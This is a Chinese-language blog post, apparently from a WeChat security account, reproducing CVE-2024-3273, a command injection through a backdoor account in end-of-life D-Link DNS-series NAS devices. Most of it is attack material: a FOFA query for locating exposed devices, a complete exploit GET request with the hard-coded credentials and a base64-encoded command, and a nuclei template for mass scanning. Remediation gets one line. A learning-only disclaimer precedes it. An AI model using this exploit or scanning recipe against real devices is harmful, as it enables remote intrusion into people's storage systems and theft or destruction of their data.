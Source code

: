 #  CVE-2024-3273   
原创 fgz  AI与网安   2024-04-16 07:01  
  
免  
责  
申  
明  
：**本文内容为学习笔记分享，仅供技术学习参考，请勿用作违法用途，任何个人和组织利用此文所提供的信息而造成的直接或间接后果和损失，均由使用者本人负责，与作者无关！！！**  
  
  
  
01  
  
—  
  
漏洞名称  
  
  
D-Link nas_sharing.cgi 命令注入  
漏洞  
  
  
  
02  
  
—  
  
漏洞影响  
  
  
D-Link   
- DNS-320L Version 1.11, Version 1.03.0904.2013, Version 1.01.0702.2013  
  
- DNS-325 Version 1.01  
  
- DNS-327L Version 1.09, Version 1.00.0409.2013  
  
- DNS-340L Version 1.08  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPiamgvzVVL4PhH84hxAbibAjwxf6ick8tsm1aI3G31OLjHRMTxuV4SPQvS5c5IUUu0ibTQWMXT1vtUew/640?wx_fmt=png&from=appmsg "")  
  
  
03  
  
—  
  
漏洞描述  
  
  
在D-Link DNS-320L、DNS-325、DNS-327L和DNS-340L中发现了一个严重漏洞，至20240403已被确认存在。受影响的是组件HTTP GET Request Handler的文件/cgi-bin/nas_sharing.cgi中的一个未知功能。对参数system的篡改导致命令注入。攻击者可以远程发动攻击。  
  
  
04  
  
—  
  
FOFA搜索语句  
  
  
```
app="D_Link-DNS-ShareCenter"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPiamgvzVVL4PhH84hxAbibAjBFVAeQowaTagdB9IzddVbco7n07XuntCRZHs26ibJbR9roSDk0FyGDw/640?wx_fmt=png&from=appmsg "")  
  
  
05  
  
—  
  
漏洞复现  
  
  
向靶场发送如下数据包，其中  
system参数用于传要执行的命令，但需要base64编码  
```
GET /cgi-bin/nas_sharing.cgi?user=mydlinkBRionyg&passwd=YWJjMTIzNDVjYmE&cmd=15&system=aWQ= HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:47.0) Gecko/20100101 Firefox/47.0
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPiamgvzVVL4PhH84hxAbibAjrfLTZAtcLECGGibUgLkeibZVg4hd06VdjCZh0F4Iicibe3SgL9kkOabk8w/640?wx_fmt=png&from=appmsg "")  
  
get请求可以直接使用浏览器打开  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lloX2SgC3BPiamgvzVVL4PhH84hxAbibAjTI1C3RbziaCStSCOGrHbyBUbMAgeLEnlzsicf0iaQkLGor4XCfaBGVVdg/640?wx_fmt=png&from=appmsg "")  
  
漏洞复现成功  
  
  
  
06  
  
—  
  
批量扫描 poc  
  
  
nuclei poc文件内容如下  
```
id: CVE-2024-3273
info:
  name: D-Link Network Attached Storage - Command Injection and Backdoor Account
  author: pussycat0x
  severity: high
  description: |
    UNSUPPORTED WHEN ASSIGNED ** A vulnerability, which was classified as critical, was found in D-Link DNS-320L, DNS-325, DNS-327L and DNS-340L up to 20240403. Affected is an unknown function of the file /cgi-bin/nas_sharing.cgi of the component HTTP GET Request Handler. The manipulation of the argument system leads to command injection. It is possible to launch the attack remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-259284. NOTE: This vulnerability only affects products that are no longer supported by the maintainer. NOTE: Vendor was contacted early and confirmed immediately that the product is end-of-life. It should be retired and replaced.
  reference:
    - https://github.com/netsecfish/dlink
    - https://www.bleepingcomputer.com/news/security/over-92-000-exposed-d-link-nas-devices-have-a-backdoor-account/#google_vignette
    - https://news.ycombinator.com/item?id=39960107
    - https://supportannouncement.us.dlink.com/security/publication.aspx?name=SAP10383
    - https://vuldb.com/?ctiid.259284
  classification:
    cvss-metrics: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L
    cvss-score: 7.3
    cve-id: CVE-2024-3273
    cwe-id: CWE-77
    epss-score: 0.00044
    epss-percentile: 0.09057
  metadata:
    verified: true
    fofa-query: app="D_Link-DNS-ShareCenter"
  tags: cve,cve2024,dlink,nas

variables:
  cmd: "id"

http:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/nas_sharing.cgi?user=mydlinkBRionyg&passwd=YWJjMTIzNDVjYmE&cmd=15&system={{base64(cmd)}}"

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "<auth_state>1</auth_state>"

      - type: regex
        part: body
        regex:
          - "uid=([0-9(a-z)]+) gid=([0-9(a-z)]+)"

      - type: status
        status:
          - 200
# digest: 480a00453043022055f08688d87627d1f6d57c487916c9884884e1032ac46525aab49882310ceb3e021f4ea7ae65ecc64abd81d4c033cab522110e08a8c7f4dc1395b60f90d99b9014:922c64590222798bb761d5b6d8e72950
```  
  
  
07  
  
—  
  
修复建议  
  
  
升级到最新版本。  
  
  
